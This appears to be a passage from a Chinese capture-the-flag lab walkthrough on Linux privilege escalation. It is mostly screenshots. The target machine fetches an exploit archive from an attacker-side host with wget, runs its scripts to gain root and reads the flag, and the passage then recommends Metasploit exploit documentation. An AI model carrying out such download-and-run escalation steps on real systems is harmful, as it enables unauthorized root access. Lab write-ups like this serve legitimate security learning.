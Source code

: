 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlTENlaa38Kr6Vib4Zzib2bfyxMBBU38zibagARBIkTNfR16vibibcnNCEzlg/640?wx_fmt=png&from=appmsg "")  
  
```
journalctl -xeu apache2.service
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlol72lIybmP9lyu6s7GnL3V4Sqc1ZqgZCuKoJLKljL3aFLCDDtHy1ww/640?wx_fmt=png&from=appmsg "")  
  
  
用靶机 去下载exp  
```
wget http://192.168.2.129/39772.zip
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlqUjVQ0T2uy2WWmrpw9AozLZO5ukQFJzwlNuSCqs7kyVnNQUYQuP3fQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
根据前面的文件的提示，解压压缩包，再运行压缩包中的两个脚本就可以提权成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlPXlxkDfPJcmFlc2qQOcD8PYSauibfXFz49xQIVlrXj4icLglicb4egGUg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWl5ictmAq9eECUXicnzO2b97GukEXoPRxPiaRiazor0koy4zzk5DBbx7sBvw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlf9XHOFq6ON6hHcWkaH9npsvWiahtdeibmAlKqsN232HXuRibkM8TsZZ8w/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlh0bLvpDU3ThcHLb8yibmI2tGf9D1BJr6DpJkUeIiaibnO4zaR7c52F8Lw/640?wx_fmt=png&from=appmsg "")  
  
# 提权成功  
## 得到flag  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlQqVXcibnp50yG6krpu0yqAcycviaEP7N0iaH8GkSjIN990A9tY0XdZ5Uw/640?wx_fmt=png&from=appmsg "")  
  
  
  
 推荐一个很好用的项目，这个是msf的漏洞库的详细解释，我们拿到系统版本信息后，可以看一下msf中漏洞，再在这个文档中找对应的信息，其实每一个靶场的漏洞很多，可以一个个利用学习：  
> metasploit-framework/documentation/modules/exploit/linux/local/af_packet_chocobo_root_priv_esc.md at master · rapid7/metasploit-framework · GitHub  
  
> github  
  
  
**感兴趣的可以关注微信公众号【Cauchy安全】，一起一步步慢慢来，该到达的高度终将会抵达的，加油，如有雷同纯属巧合**  
  
  
